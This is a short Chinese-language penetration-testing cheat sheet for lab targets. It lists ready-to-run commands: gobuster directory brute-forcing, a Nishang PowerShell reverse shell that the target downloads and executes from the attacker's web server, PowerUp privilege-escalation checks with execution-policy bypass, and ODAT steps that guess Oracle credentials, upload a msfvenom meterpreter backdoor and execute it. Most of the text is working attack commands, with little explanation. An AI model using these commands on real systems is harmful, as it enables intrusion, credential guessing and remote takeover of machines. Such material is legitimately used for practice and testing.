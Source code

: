 # 1、web目录猜解

```bash
gobuster -w directory-list-2.3-medium.txt -t 100 -u http://10.10.10.10/
```

# 2、webshell合集

https://github.com/tennc/webshell

# 3、Nishang

powershell反弹shell

本机上执行：
```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.11 -Port 443' >> Invoke-PowerShellTcp.ps1
python3 -m http.server 80
```
靶机上执行：

```bash
Powershell -c iex(new-object net.webclient).downloadstring('http://10.10.10.11/Invoke-PowerShellTcp.ps1’)

```

# 4、PowerUp.ps1
powershell版windows提权检测工具

```bash
powershell -ExecutionPolicy Bypass
Import-Module ./PowerUp.ps1
Invoke-AllChecks
```

# 5、Oracle数据库渗透工具
https://github.com/quentinhardy/odat

猜解sid 
```bash
 ./odat.py sidguesser -s 10.10.10.10 -p 1521
```
获得sid为TEST

猜解用户及密码
```bash
./odat.py passwordguesser -s 10.10.10.10 -p 1521 -d TEST --accounts-file accounts/user.txt
```
获得用户及密码scott/tiger

生成后门
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<LAB IP> lport=<PORT> -f exe > writeup.exe 
```
上传后门
```bash
./odat.py utlfile -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ writeup.exe writeup.exe
```
执行后门
```bash
./odat.py externaltable -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/ writeup.exe
```



